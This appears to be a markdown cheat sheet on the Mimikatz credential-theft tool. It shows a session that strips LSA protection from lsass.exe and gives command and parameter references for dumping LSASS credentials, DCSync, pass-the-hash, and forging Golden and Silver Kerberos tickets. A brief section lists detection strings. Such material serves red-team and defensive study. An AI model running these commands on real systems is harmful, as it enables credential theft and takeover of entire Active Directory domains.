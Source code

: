 ## Mimikatz Tool


### PowerShell & Mimikatz:
---
`Invoke-Mimikatz` loads Mimikatz DLL directly into memory (DLL is embeded in the script), and executed from memory without touching disk.

### LSA Protection
---
A Windows feature that enables protecting LSASS process. Mimikatz can still bypass this with a driver (“!+”).
```powershell
mimikatz# privilege::debug
Privilege '20' OK

mimikatz# !+
[*]mimikatz driver not present
[*]mimikatz driver succesfully loaded
[*]mimikatz driver ACL to everyone
[*]mimikatz driver started

mimikatz# !processprotect /process:lsass.exe /remove
Process: lsass.exe
PID 492 -> 00/00 [0-0-0]
```

### Detecting Invoke-Mimikats
---
Parse PowerShell Events for
- `System.Reflection.AssemblyName`
- `System.Reflection.Emit.AssemblyBuilderAccess`
- `System.Runtime.InteropServices.MarshalAsAttribute`
- `TOKEN_PRIVILEGES`
- `SE_PRIVILEGE_ENABLED`

### Golden Ticket
---
A Golden Ticket is a TGT using the KRBTGT NTLM password hash to encrypt and sign.

A Golden Ticket (GT) can be created to impersonate any user in the domain. Since the Golden Ticket is an authentication ticket (TGT described below), its scope is the entire domain (and the AD forest by leveraging SID History) since the TGT is used to get service tickets (TGS) used to access resources. The Golden Ticket (TGT) contains user group membership information (PAC) and is signed and encrypted using the domain’s Kerberos service account (KRBTGT) which can only be opened and read by the KRBTGT account.

Once an attacker gets access to the KRBTGT password hash, they can create Golden Tickets (TGT) that provide access to anything in AD at any time.


### Silver Ticket
--- 
A Silver Ticket is a TGS (similar to TGT in format) using the target service account’s (identified by SPN mapping) NTLM password hash to encrypt and sign.

### Trust Ticket
--- 
Once the Active Directory Trust password hash is determined (Mimikatz “privilege::debug” “lsadump::trust /patch” exit), a trust ticket can be generated.
### Command Guide
---

#### SEKURLSA Module
---
Extracts passwords, keys, pin codes, tickets from memory of LSASS. 

- **SEKURLSA::LogonPasswords** : Dumps password data in LSASS for currently logged on (or recently logged on) accounts as well as services running under the context of user credentials.
- **SEKURLSA::Pth** : Pass-the-Hash and Over-Pass-the-Hash to run a process under another credentials. Requires NTLM Hash of the user
  - `/user` : Username to impersonate
  - `/domain` : FQDN od the user domain
  - `/rc4` or `/ntlm` : User password key
  - `/run` : Command to run

- **SEKURLSA::ekeys** : List Kerberos encryption keys

- **SEKURLSA::krbtgt** : Get domain Kerberos service account (KRBTGT) password data

- **SEKURLSA::tickets /export** : 

#### LSADUMP Module
--- 
Interacts with the Windows Local Security Authority (LSA) to extract credentials. Most of these commands require either debug rights (`privilege::debug`) or local System.
- **LSADUMP::DCSync** : Ask a DC to synchronize an object (get password data for account). Requires membership in Domain Administrator, domain Administrators, or custom delegation.
  - `/all` : DCSync pull data for the entire domain.
  - `/user` : user id or SID of the user you want to pull the data for.
  - `/domain` : FQDN of the Active Directory domain. Mimikatz will discover a DC in the domain to connect to. If this parameter is not provided, Mimikatz defaults to the current domain.
  - `/dc` : Specify the Domain Controller you want DCSync to connect to and gather data.
- **LSADUMP::lsa** : Dumps credential data in an Active Directory domain when run on a Domain Controller.
  - `/inject` : Inject LSASS to extract credentials
  - `/name` : account name for target user account
  - `/id` : RID for target user account
  - `/patch` : patch LSASS.

### KERBEROS Module
---
The KERBEROS Mimikatz module is used to interface with the official Microsoft Kerberos API. No special rights are required for the commands in this module.

- **KERBEROS::golden** : To create a TGT (Golden Ticket).
  - `/domain` : the fully qualified domain name. In this example: “lab.adsecurity.org”.
  - `/sid` : the SID of the domain. In this example: “S-1-5-21-1473643419-774954089-2222329127”.
  - `/user` : username to impersonate
  - `/groups` (optional) : group RIDs the user is a member of (the first is the primary group).
    - Add user or computer account RIDs to receive the same access.
    - Default Groups: 513,512,520,518,519 for the well-known Administrator’s groups (listed below).
  - `/krbtgt` : NTLM password hash for the domain KDC service account (KRBTGT). Used to encrypt and sign the TGT.
  - `/ticket` (optional) : provide a path and name for saving the Golden Ticket file to for later use or use /ptt to immediately inject the golden ticket into memory for use.
  - `/ptt` : as an alternate to /ticket – use this to immediately inject the forged ticket into memory for use.
  - `/id` (optional) : user RID. Mimikatz default is 500 (the default Administrator account RID).
  - `/startoffset` (optional) : the start offset when the ticket is available (generally set to –10 or 0 if this option is used). Mimikatz Default value is 0.
  - `/endin` (optional) : ticket lifetime. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 10 hours (600 minutes).
  - `/renewmax` (optional) : maximum ticket lifetime with renewal. Mimikatz Default value is 10 years (~5,262,480 minutes). Active Directory default Kerberos policy setting is 7 days (10,080 minutes).
  - `/sids` (optional) : set to be the SID of the Enterprise Admins group in the AD forest ([ADRootDomainSID]-519) to spoof Enterprise Admin rights throughout the AD forest (AD admin in every domain in the AD Forest).
  - `/aes256` : the AES256 key

- **KERBEROS::golden** : To create Silver Ticket (uses same module). Uses same parameters as before, adding the mandatory ones:
  - `/target` : Target server FQDN
  - `/service` : Kerberos Service running in the server: host, cifs, http...
  -  `rc4` : NTLM hash for the service

- **KERBEROS::ptt** : 

